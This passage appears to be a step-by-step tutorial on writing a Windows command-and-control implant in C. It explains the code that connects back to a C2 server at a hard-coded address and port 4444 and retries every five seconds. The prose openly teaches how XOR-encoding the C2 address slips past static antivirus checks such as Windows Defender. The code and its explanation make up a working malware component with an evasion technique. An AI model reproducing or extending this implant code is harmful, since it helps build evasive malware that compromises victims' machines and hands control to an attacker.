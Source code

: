 #### `firstConnection()`: Initial setup for the network connection

This part of the code prepares everthing needed to start talking to the C2 server:
- `WSADATA wsa`: Used to initialize the Winsock library
- `SOCKET sock`: This is our actual socket used for the connection
- `struct sockaddr_in server`: Holds the information about the server we are going to connect to
- `char recvBuffer[BUFFER_SIZE]`: A buffer to store the data we are receiving from the server
- `int recvSize`: Stores the number of bytes received in each message

```c
WSADATA wsa;
SOCKET sock;
struct sockaddr_in server;
char recvBuffer[BUFFER_SIZE];
int recvSize;
```

The first thing we do in this function is initialize the Winsock library by calling the `WSAStartup()` with the version 2.2. This step is required before we can use any socket function. Then, we can create a socket using `socket()` with the appropriate parameters to set up the TCP socket over IPv4.

```c
WSAStartup(MAKEWORD(2, 2), &wsa);
sock = socket(AF_INET, SOCK_STREAM, 0);
```

In this part, we use the XOR key we defined earlier as a simple trick to bypass some static analysis. Some AV engines, like Windows Defender, perform static analysis before a file is even run. That means certain strings—like IP addresses or suspicious commands—can get flagged just for existing in the binary. By XOR-encoding the C2 address, we make it harder for those simple scans to detect it, since the plain text is no longer directly present in the file.

```c
// ip c2 ---> 192.168.1.90
unsigned char address_host[] = { 0x9B^K0, 0x93^K0, 0x98^K0, 0x84^K0, 0x9B^K0, 0x9C^K0, 0x92^K0, 0x84^K0, 0x9B^K0, 0x84^K0, 0x93^K0, 0x9A^K0 };
int port_host = 4444; // port c2
```

After defining the IP and port, we set up the `server` struct with the connection info. Before using the IP, we decode the `address_host` array by applying XOR at runtime to get the original string. Then, we use `inet_addr()` to convert that IP string into a proper address format. The address family is set to `AF_INET` (since we are using IPv4), and the port is converted to network byte order using `htons()`.

```c
server.sin_addr.s_addr = inet_addr(address_host);
server.sin_family = AF_INET;
server.sin_port = htons(port_host);
```

Now we enter a loop that runs every 5 seconds, trying to connect to the IP and port we set earlier. As long as the connection fails, we wait and try again. Once the connection is successful, the loop stops and we move on.

```c
while (connect(sock, (struct sockaddr*)&server, sizeof(server)) != 0) {
	Sleep(5000);
}
```

